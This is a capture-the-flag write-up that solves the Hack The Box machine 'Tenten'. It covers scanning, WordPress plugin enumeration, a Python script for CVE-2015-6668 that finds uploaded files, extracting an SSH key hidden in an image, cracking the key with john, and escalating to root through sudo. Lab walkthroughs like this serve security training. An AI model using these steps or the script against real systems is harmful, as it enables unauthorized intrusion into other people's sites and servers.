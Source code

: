 ![logo](/logo.png)

# [Tenten- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 22 Mar 2017 as the eight machine on HTB,Tenten created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *ssh
  *Apache 
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/tenten 10.10.10.10
```

###### Output 

![](/Linux/Linux-Medium/Tenten/Screenshots/nmap.png)

```sh
 nmap -sV -sC -oA nmap/tenten 10.10.10.10                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-11 08:45 EAT
Nmap scan report for 10.10.10.10
Host is up (0.33s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://tenten.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.84 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu Linux`and its running an `Apache httpd 2.4.18`.  With a host name of [http://tenten.htb](http://tenten.htb)

port[22]- ssh
port[80]-  http

so first thing firdt lets add the hostname to our `/etc/hosts`

![](/Linux/Linux-Medium/Tenten/Screenshots/etc.png)


When we navigate to [http://tenten.htb](http://tenten.htb) we find out that it a wordpress page 

![](Linux/Linux-Medium/Tenten/Screenshots/wordpress.png)

Now that its running a wordpress we just going to do an automated script for wordpress to check for vulnerabilities.

```sh
wpscan --url http://tenten.htb -e ap --plugins-detection aggressive
```

![](/Linux/Linux-Medium/Tenten/Screenshots/wpsacan.png)

looking at the now results we find that it has a readme which specifies that wordpress is version `4.7`

![](/Linux/Linux-Medium/Tenten/Screenshots/wordpressv.png)

now after doing some search i found out that their is a page in jobs where we can access other pages by just changing the `uid` of the page 

# Exploitation


![](/Linux/Linux-Medium/Tenten/Screenshots/Uid.png)
![](/Linux/Linux-Medium/Tenten/Screenshots/uid1.png)

now lets go back to the previous page and upload something so that we can be able to do a for loop to check for It 

![](/Linux/Linux-Medium/Tenten/Screenshots/Application.png)

now we generate a for loop to check for the application we submitted.

```sh
for i in $(seq 1 20); do echo -n "$i: "; curl -s http://tenten.htb/index.php/jobs/apply/$i/ | grep '<title>'; done
```

![](Linux/Linux-Medium/Tenten/Screenshots/forloop.png)

As we can see that is what we uploaded but when we try to look for it in the web browser we find that we are unable so we look for a script that abuses the Job manager [exploit](https://gist.github.com/DoMINAToR98/4ed677db5832e4b4db41c9fa48e7bdef) we modify for ranges and file types.

from our ealier scan on `wpscan` it show as two vulnerable plugin 

![](/Linux/Linux-Medium/Tenten/Screenshots/wpscan.png)

```sh
import requests

print("""  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  
""")

website = input('Enter a vulnerable website: ')
filename = input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2017, 2019):
    for i in range(3, 13):
        for extension in {'jpeg', 'png', 'jpg'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code == 200:
                print("[+] URL of CV found! " + URL)
```

so by using the script above we get the url for `HackerAccessGranted`

![](/Linux/Linux-Medium/Tenten/Screenshots/url.png)

By browsing the page we get an Image 

![](Linux/Linux-Medium/Tenten/Screenshots/hackersgranted.png)

so we need to save the image because so that we can check it it store any information 

```sh
steghide extract -sf HackerAccessGranted.jpg
```

it looks like someone hide a rsa text to the image

![](/Linux/Linux-Medium/Tenten/Screenshots/rsa.png)

now we need to crack the `id_rsa` but first we make it crackable with `john`

```sh
ssh2john id_rsa
```

![](/Linux/Linux-Medium/Tenten/Screenshots/ssh2john.png)

now we copy this in to a new file and be able to crack it with john and default kali linux rockyou.txt wordlist.

```sh
john id_rsa_john_encrypted --wordlist=/usr/share/wordlists/rockyou.txt 
```

![](/Linux/Linux-Medium/Tenten/Screenshots/john.png)

now we use the password and the `id_rsa` to log in as root.

```sh
chmod 600 id_rsa
ssh -i id_rsa root@10.10.10.10
```

![](/Linux/Linux-Medium/Tenten/Screenshots/rootfail.png)

but it fails but we rember their was a user called `takis` from the blog post so lets log in as him

![](/Linux/Linux-Medium/Tenten/Screenshots/tarkis.png)

we can get the user flag from the user 

![](/Linux/Linux-Medium/Tenten/Screenshots/userflag.png)

#  Privillage Escalation

after trying `takis` password on root it resufes so what i do I just run  `sodo -l` which will show if their is something that i can run without root privillages.

```sh
sudo -l
```

![](/Linux/Linux-Medium/Tenten/Screenshots/privillage.png)

so let me check the file so that we se what it does 

![](/Linux/Linux-Medium/Tenten/Screenshots/binbash.png)

it just does a `bin/bash` and enable us to run comands so lets run it

![](/Linux/Linux-Medium/Tenten/Screenshots/root.png)

and just that way we are root.

![](/Linux/Linux-Medium/Tenten/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------
